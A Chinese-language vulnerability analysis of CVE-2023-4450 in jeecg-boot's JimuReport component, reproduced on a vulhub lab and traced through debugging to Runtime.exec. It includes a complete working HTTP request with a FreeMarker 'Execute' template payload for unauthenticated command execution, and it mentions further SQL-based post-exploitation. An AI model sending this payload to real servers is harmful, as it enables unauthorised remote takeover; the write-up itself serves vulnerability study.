jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

- - -

# jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

## 一。漏洞复现

这里使用的漏洞环境时 vulhub 的 jeect-boot。靶场介绍说是：

以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

```bash
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 121
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153336-67c4c87a-aa0a-1.png)

## 二。漏洞跟踪分析

这里的漏洞环境搭建是使用了 jeecg-boot 3.5.3 环境，从 github 下载即可，配置 mysql 和 redis 数据库，随后使用 idea 启动调试。

### 拦截器路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153345-6d891798-aa0a-1.png)

从 JimuReportConfiguration.class 我们可以看见 jimu 报表对于如下的路由设置了拦截器：

```bash
"/jmreport/queryFieldBySql"
"/jmreport/loadTableData",
"/jmreport/dictCodeSearch"
```

### 入口点路由（/queryFieldBySql）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153354-72841a7c-aa0a-1.png)

可以发现他的具体代码在这个位置的 a.class

首先从 json 中解析到了 sql，把这个变量的参数放到 i.a(var2) 去执行，跟进这里：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153406-79de90f4-aa0a-1.png)

可以发现是做 sql 注入拦截的，waf 一样的存在。继续往下走

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153418-8132814e-aa0a-1.png)

在这里进行执行了，传入了 var2,var3,var4,var5

他们分别是在 json 中传入的参数：

```bash
sql
dbSource
paramArray
type
```

但是在 payload 中传入的只有：sql 和 type=0（这里 type 内容是什么都可以，但要有 type 这个，可以为空，但一定要穿进去）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153430-88390f94-aa0a-1.png)

然后继续跟`Map var12 = this.reportDbService.parseReportSql(var2, var3, var4, var5);`

这里传入的 var2 是：

```bash
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("open -a Calculator.app")}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153445-914be566-aa0a-1.png)

随着继续跟进，不用看 type，因为不影响。直接看 sql

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153500-99c2298a-aa0a-1.png)

这里走入的是第二个 sql 的，因为 paramArray 是 null

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153519-a506fee2-aa0a-1.png)

我们在 f.a 打断点，继续跟进，是在这里实现 rce 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153533-ad65b470-aa0a-1.png)

这里的 var0 = b(var0, var1);返回的不变，没有改变，来到了 var0 = a(var2, var0);

随后在 a 中，调用了：`var1 = FreeMarkerUtils.a(var1, var2);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153547-b5dabc90-aa0a-1.png)

### Freemarker 调用点

这边继续来到`FreeMarkerUtils.a`

在这里执行了命令：`(new Template("template", new StringReader(var0), var2)).process(var1, var3);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153604-c0040a3c-aa0a-1.png)

跟踪 process

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153615-c6792b0e-aa0a-1.png)

随后继续跟踪 process，从 getRootTreeNode 进入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153632-d0aae572-aa0a-1.png)

来到了进入 this.doAutoImportsAndIncludes(this);

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153645-d84a090c-aa0a-1.png)

继续跟进 env.getMainTemplate();

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153659-e0aab56a-aa0a-1.png)

### 初始化模板 & 命令执行

这里的功能主要是`针对自动导入和包含功能的调用`

```bash
该环境对象具有许多属性和方法，用于处理模板的渲染和执行。这些属性和方法包括配置（configuration）、根数据模型（rootDataModel）、指令堆栈（instructionStack）、异常处理器（templateExceptionHandler）等。

在给定的代码中，我看到了一个模板字符串的定义 "<#assign ex = "freemarker.template.utility.Execute"?new()>${ex("open -a Calculator.app")}"。这里使用了 FreeMarker 模板语法来定义一个变量 ex，并使用其调用了系统命令 open -a Calculator.app。
```

随后进入，继续追踪，这里我们看到了调用了 this.visit。而 visit 主要是：对该元素进行访问处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153717-eb7f36a0-aa0a-1.png)

在这里的 element，就是创建 new 一个模板。（后续 visit 也是会反复调用自己，从反射调用类到获取命令）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153758-03ee2f34-aa0b-1.png)

这里可以看到，TemplateElement 类型的变量里，valueExp 为：`freemarker.template.utility.Execute"?new()`

```bash
"freemarker.template.utility.Execute"?new() 是 FreeMarker 模板语法中的一种使用方式，用于执行系统命令。通过这种方式，攻击者可以在受影响的应用程序上执行操作系统命令，并可能导致潜在的安全问题。
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153816-0eedad10-aa0b-1.png)

而且继续跟踪的，可以看到 el 的内容成为了`${ex("open -a Calculator.app")}`

一方面是创建了一个可以执行命令的模板，另一方面是把将要执行的命令拆出来，继续调用自己一遍

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153850-22f2d754-aa0b-1.png)

这里的变量内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153914-315664fa-aa0b-1.png)

在调用自己之后，会回到这个函数 accept 方法里

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153930-3ab00f88-aa0b-1.png)

随后这里调用 eval，和刚才传进来的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154201-94b6ff00-aa0b-1.png)

具体在这里执行命令：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154140-8881780a-aa0b-1.png)

```bash
constantValue = {SimpleScalar@19070} "freemarker.template.utility.Execute"
 value = "freemarker.template.utility.Execute"
```

继续跟踪，来到了 eval 里的 this.\_eval(env)，在\_eval 里调用了 ConstructorFunction，这里也就是反射调用了

```bash
freemarker.template.utility.Execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154121-7d30e6ca-aa0b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154103-725324c0-aa0b-1.png)

反射后，创建新的对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154039-642d1928-aa0b-1.png)

### 获取命令传入最终执行

那如何获得执行的具体命令是什么呢？（之前只是对执行命令类部分的分析）

随着他 visit 调用自身，最后来到了 accept 方法中，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154023-5a83dba0-aa0b-1.png)

不断的跟踪下去，即可发现，最终来到了 Runtime.getRuntime().exec(aExecute);

成功执行了命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154009-526dc700-aa0b-1.png)

最终附上执行命令的总体流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153956-4a77fdd6-aa0b-1.png)

## 三。总结

​ 这个漏洞其实并没有什么难得，主要就是跟踪一下，最后是可以发现 rce 的触发点。同时这里不光有 freemarker 的 rce，还有 sql 注入点，可以直接未授权执行 sql 语句。也许可以继而 mysql 后渗透，通过 mysql 控制服务器。

这里我随便执行一下，创建了一个用户：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153944-43054356-aa0b-1.png)

不过在后续的版本中，官方也是给这里增加了权限设置，之前这里都是未授权访问的。
